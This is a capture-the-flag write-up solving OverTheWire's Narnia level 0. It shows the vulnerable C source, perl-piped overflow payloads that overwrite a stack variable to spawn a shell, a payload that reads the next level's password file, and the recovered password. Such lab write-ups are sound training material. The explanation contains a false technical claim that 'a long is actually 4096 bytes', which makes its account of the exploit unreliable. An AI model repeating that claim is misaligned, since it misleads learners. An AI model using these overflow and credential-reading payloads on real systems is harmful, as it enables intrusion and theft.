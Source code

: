 ```yaml
---
layout: post
title:  "Narnia Level 0"
date:   2015-09-28 22:04
categories: narnia wargame pwnable overthewire
author: Leander
---
```

This is a solution guide to the Narnia0 Level at [overthewire](http://overthewire.org/wargames/narnia/). This write-up was created on 19 November 2014.

<strong>Challenge Description:</strong> Narnia0 is the beginning challenge for pwnable style challenges on [overthewire](http://overthewire.org/wargames/narnia/). It requires the attacker to utilize a buffer overflow in order to overwrite a variable named <em>val</em> with the hexidecimal value <em>0xdeadbeef</em>. When the attack is successful the vulnerable program will execute a system command which produces a shell. This challenge requires the attacker to send hexidecimal values after determining the buffer overflow offset.
<!--break-->

First connect to the lab
<ul><li>ssh narnia0@narnia.labs.overthewire.org</li>
<li>Enter the following as the password narnia0</li></ul>

Change directories to the narnia games folder <code>cd /narnia</code>. First let's examine how we get the password for the next level <code>less /README.txt</code>. This machine holds several wargames. For a generic wargame named "somegame", the usernames are: mygame0, mygame1, ... and most levels are stored in /mygame/. Passwords for each level are stored in /etc/mygame_pass/

So let's try reading the password without any additional work, <code> cat /etc/narnia_pass/narnia1</code>

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ cat /etc/narnia_pass/narnia1
cat: /etc/narnia_pass/narnia1: Permission denied
narnia0@melinda:/narnia$ </code></pre></figure>

Well that didn't work, so lets check out the challenge next. 
Notice all the different files and find the level 0 binary.

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ ls
narnia0    narnia1.c  narnia3    narnia4.c  narnia6    narnia7.c
narnia0.c  narnia2    narnia3.c  narnia5    narnia6.c  narnia8
narnia1    narnia2.c  narnia4    narnia5.c  narnia7    narnia8.c
narnia0@melinda:/narnia$</code></pre></figure>

I start by checking what the file does

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAA %p
buf: AAAA
val: 0x41414141
WAY OFF!!!!
narnia0@melinda:/narnia$</code></pre></figure>

Well that's interesting that it did something weird with %p. Now let's check the source code, type out <code>cat narnia0.c</code>

{% highlight c linenos %}
#include <stdio.h>
#include <stdlib.h>

  int main(){
  	long val=0x41414141;
// notice the buffer here is 20, which means there may be a potential for a buffer overflow
  	char buf[20];   

  	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
  	printf("Here is your chance: ");
  	scanf("%24s",&buf);   
//notice the buffer read in from the command prompt above is a 24 byte string
//this means that we have a 4 byte overflow

  	printf("buf: %s\n",buf);        //here it prints the 20 bytes from char buf
  	printf("val: 0x%08x\n",val);    //the 4 bytes that overflow fall into val 
  	                                //because it was initialized on the stack below it

  	if(val==0xdeadbeef)             //a successful overflow input will give me a shell!
  		system("/bin/sh");            //system passes a command to the shell and in
  		                              //this case attempts to open a shell
  	else {
  		printf("WAY OFF!!!!\n");
  		exit(1);
  	}

  	return 0;
  }
{% endhighlight %}
  
From inspecting the code we can see that the stack looks something like this:

<figure class="highlight"><pre><code class="language-text" data-lang="text">
||-------------------------||
||                         ||
||                         ||
|| char buff ( 20 bytes )  ||       
||                         ||
||                         ||
||-------------------------||
||   long val ( 4 bytes )  ||
||-------------------------||
</code></pre></figure>
  
Alright now that I know this let's try some crafted input.

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ perl -e 'print "A"x20 . "BBBB"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAABBBB
val: 0x42424242
WAY OFF!!!!
narnia0@melinda:/narnia$</code></pre></figure>
  
Well that's great, we've just confirmed that we can affect what goes into long val.
It's confirmed that i can overwrite the buffer. Apaprently, I was correct in how the
stack looked and inside it would look similar to this (except in hexadecimal 
representation).

<figure class="highlight"><pre><code class="language-text" data-lang="text">
        ||--------------||
        ||  0x41414141  ||    
        ||  0x41414141  ||
        ||  0x41414141  ||     
        ||  0x41414141  ||
        ||  0x41414141  ||
        ||--------------||
        ||  0x42424242  ||     
        ||--------------||
</code></pre></figure>

Note that 0x41 = A and 0x42 = B, char buff is ( 20 bytes ), and long val is ( 4 bytes ). Now let's try it with deadbeef in there.

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ perl -e 'print "A"x20 . "deadbeef"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAdead
val: 0x64616564
WAY OFF!!!!
narnia0@melinda:/narnia$</code></pre></figure>
  
Well that didn't work, because scanf is accepting string characters. So now we need a way to get the proper "characters"
in so that it will display 0xdeadbeef. Remember that you also have to craft the input to be little endian (I think of this
as the input has to be spelled backwards).

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ perl -e 'print "A"x20 . "\xef\xbe\xad\xde"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ?
val: 0xdeadbeef
narnia0@melinda:/narnia$</code></pre></figure>
  
Well that's weird I didn't get a shell, but the WAY OFF!!!! didn't show. At this point I realized that the /bin/sh needed an input to follow the system command. So then I added more input onto the end.

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ perl -e 'print "A"x20 . "\xef\xbe\xad\xde" . "cat /etc/narnia0_pass/narnia1"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ?
val: 0xdeadbeef
narnia0@melinda:/narnia$</code></pre></figure>

Still no solution. Now I want to create a situation where the program does something unintentional.

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ perl -e 'print "A"x20 . "\xef\xbe\xad\xde"x1100 . "cat /etc/narnia0_pass/narnia1"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ?
val: 0xdeadbeef
/bin/sh: 1: ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?ﾭ?cat: Filename too long
narnia0@melinda:/narnia$</code></pre></figure>

<figure class="highlight"><pre><code class="language-text" data-lang="text">
||-------------------------||
||                         ||
||                         ||   
|| char buff ( 20 bytes )  ||   
||                         ||    
||                         ||   
||-------------------------||  
||  buff overflow (4 bytes)||     
          .......                
|| long val ( 4092 bytes ) ||         
          .......
||                         ||
||-------------------------||
</code></pre></figure>

So I discovered I had the stack improperly setup because a long is actually 4096 bytes in size. This was demonstrated by the fact /bin/sh received the input that overflowed from the crafted string that I sent. Well that was useful, now lets whittle it down so that the /bin/sh command takes the correct input. All I should have to do now is remove the extra bytes.

<figure class="highlight"><pre><code class="language-text" data-lang="text">narnia0@melinda:/narnia$ perl -e 'print "A"x20 . "\xef\xbe\xad\xde" . "B"x4072 . "cat /etc/narnia_pass/narnia1"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ?
val: 0xdeadbeef
efeidiedae
narnia0@melinda:/narnia$</code></pre></figure>
  
BINGO! We have a solution. The password file for narnia1 is <code>efeidiedae</code>.
